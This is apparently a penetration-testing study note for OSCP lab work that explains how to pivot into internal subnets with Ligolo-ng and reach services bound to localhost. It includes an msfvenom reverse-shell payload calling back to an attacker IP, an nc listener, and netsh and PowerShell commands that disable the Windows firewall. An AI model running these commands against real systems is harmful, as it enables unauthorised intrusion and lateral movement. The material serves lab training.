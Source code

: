 # Ligolo-ng

## When do you use ligolo?

- When you need to access a different subnet from your kali machine; For OSCP this means the AD Set where the DC and the 2nd AD machine will be on a different subnet from your kali

- When you want to access an internal service on a host; usually these are services that are not exposed or services like SQL, MSSQL that only allow logins from localhost

## How does it work?

- This is my layman understanding so happy to be corrected. Ligolo-ng creates a tunnel via the pivot machine (or agent) to allow you to access another subnet. Think of it like a VPN. This is unlike Chisel which uses SOCKS.

- You have a proxy which is your kali and your agent which is the pivot machine

- As such, ligolo-ng is my preference for the OSCP because it is just really good and much faster than something like Chisel where you have to use proxychains and everything slows down to a crawl (esp Nmap scans)

- That said, you should still learn Chisel as an alternative tool

## The Most Common Use Case: For Pivoting into Internal Network

![alt text](/Assets/Basic_ligolo.png)

Now using my piece of art above to explain.

**Scenario**

- You gotten a foothold on MS01. A low level user is sufficient for Ligolo. Now you want to access MS02 from your kali.

- You transfer agent.exe onto MS01 via certutil, or Invoke-WebRequest or mounting a smb share or using evil-winrm upload function.

- On your kali, you set up a listener like this

```bash
sudo ./proxy -selfcert

# create a name for your interface(tunnel)
ifcreate --name ligolo
```
- You notice that the proxy started and is listening on 0.0.0.0:11601. By default, the proxy listens on port 11601 but you can define your own port if you want by:

```bash
sudo ./proxy -selfcert -laddr 0.0.0.0:<port of your choice>
```

- most of the time 11601 is fine but sometimes you may face firewall issues on MS01 which prevents outbound traffic on 11601. You can use something like 53, 80 or 443 which should be exempted from firewall rules.

- okay now your proxy is set up. On MS01, run the following command to connect your agent to the proxy

```cmd

agent.exe -connect 192.168.1.10:11601 -ignore-cert

```

- if all goes smoothly, you should see an agent connected on your proxy. To set up the tunnel, you then run the following commands on your proxy:

```bash

session # choose the session of the agent that connected

route_add --name ligolo --route 10.10.1.0/24  # define the subnet you want to access

start

```

- bingo you can now access the 10.10.1.0/24 subnet!

### What if I want a reverse shell back from MS02 to my kali?

- in some cases, you may want to get a reverse shell back to kali. But you cant just run a msfvenom payload on MS02 with the LHOST being 192.168.1.10 because MS02 has no idea where the 192.68.1.0/24 subnet is and as such your rev shell will fail

- But MS02 knows where MS01 is. So the idea is to have MS01 port fwd incoming connections from MS02 to the kali machine!

- Now assuming you set up the tunnel, what you need to do is to add a listener on the MS01 agent. On your proxy, do the following:

```bash
[Agent : corp.com\peter@MS01] » listener_add --addr 0.0.0.0:443 --to 0.0.0.0:443 --tcp
```

- what the above does is tell the agent MS01 to forward any traffic they receive from port 443 and push it out the other side on port 443. This works bidrectional btw. 

- Ports that are already hosting a service cannot be used (eg. there is a HTTP server up on the target at port 80, which means you cannot bind 0.0.0.0:80).
  This goes the same for your own services (eg. SMB server on Kali's port 445, which prevents you from binding a listener on 127.0.0.1:445)

*You can add listeners and routes while the session has started, so don't worry if you did not execute this part in order

- with this you can get a reverse shell by getting MS02 to connect to MS01 on port 443 who will then forward the traffic to kali on port 443 so:

```bash

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.20 LPORT=443 -f exe > rev.exe

# set up listener on kali

rlwrap nc -lvnp 443

# upload this file to MS02 and execute it. You should get a rev shell!

```

- Again why port 443 is chosen is due to likely firewall rules exempting port 443 from outbound traffic. That said, if you can get Admin on MS01 you can just disable the firewall and use any ports you like for forwarding on MS01. You can do this on MS01 with the following command:

```cmd
netsh advfirewall set allprofiles state off

#powershell equivalent

Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

```

## The Other Scenario: Assessing local services on the host

What if there are services that are either only running on localhost or accept connections from localhost?

You can also use ligolo for this. Set up the proxy and then get the agent connected. The only difference is the route_add

Ligolo reserves the 240.0.0.1 subnet for accessing the agent's localhost. 

**Scenario**

In this case, MS01 has an internal web server on port 8080. You want to access this web server from kali.

```bash
# after selecting the agent session

route_add --name ligolo --route 240.0.0.1/32

start
```

You can now curl or browse to that local webserver via http://240.0.0.1:8080
